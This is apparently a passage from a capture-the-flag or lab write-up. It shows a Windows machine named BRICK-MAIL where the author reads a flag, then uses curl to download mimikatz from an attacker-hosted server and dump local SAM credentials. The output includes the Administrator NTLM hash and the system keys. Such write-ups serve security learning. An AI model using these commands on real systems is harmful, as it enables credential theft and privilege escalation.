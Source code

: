 ```shell
  
Directory of C:\Users\wrohit\Desktop  
  
03/11/2024  05:14 AM    <DIR>          .  
03/11/2024  05:14 AM    <DIR>          ..  
03/11/2024  05:15 AM                25 flag.txt  
              1 File(s)             25 bytes  
              2 Dir(s)  13,992,218,624 bytes free  
  
C:\Users\wrohit\Desktop>type flag.txt    
type flag.txt  
redacted 
C:\Users\wrohit\Desktop>
```

I upload `mimikatz.exe` to the machine with `python3 -m http.server` and `curl`:
```shell
C:\Users\wrohit\Desktop>curl http://10.13.66.123:8000/mimikatz.exe -o mimikatz.exe                                     
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current  
                                Dload  Upload   Total   Spent    Left  Speed  
100 1059k  100 1059k    0     0   529k      0  0:00:02  0:00:02 --:--:--  464k  
  
C:\Users\wrohit\Desktop>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"  
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"  
  
 .#####.   mimikatz 2.2.0 (x86) #19041 Sep 19 2022 17:43:26  
.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)  
## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
## \ / ##       > https://blog.gentilkiwi.com/mimikatz  
'## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )  
 '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/  
  
mimikatz(commandline) # token::elevate  
Token Id  : 0  
User name :    
SID name  : NT AUTHORITY\SYSTEM  
  
736     {0;000003e7} 1 D 25410          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary  
-> Impersonated !  
* Process Token : {0;001e1e41} 0 D 2122057     BRICK-MAIL\wrohit       S-1-5-21-1966530601-3185510712-10604624-1014    (14g,24p)       Primary  
* Thread Token  : {0;000003e7} 1 D 2143014     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)  
  
mimikatz(commandline) # lsadump::sam  
Domain : BRICK-MAIL  
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821  
Local SID : S-1-5-21-1966530601-3185510712-10604624  
  
SAMKey : 6e708461100b4988991ce3b4d8b1784e  
  
RID  : 000001f4 (500)  
User : Administrator  
 Hash NTLM: 2dfe3378335d43f9764e581b856a662a  
  
Supplemental Credentials:  
* Primary:NTLM-Strong-NTOWF *  
   Random Value : 3d527dff081980ff09e87e492cebee23
...
```
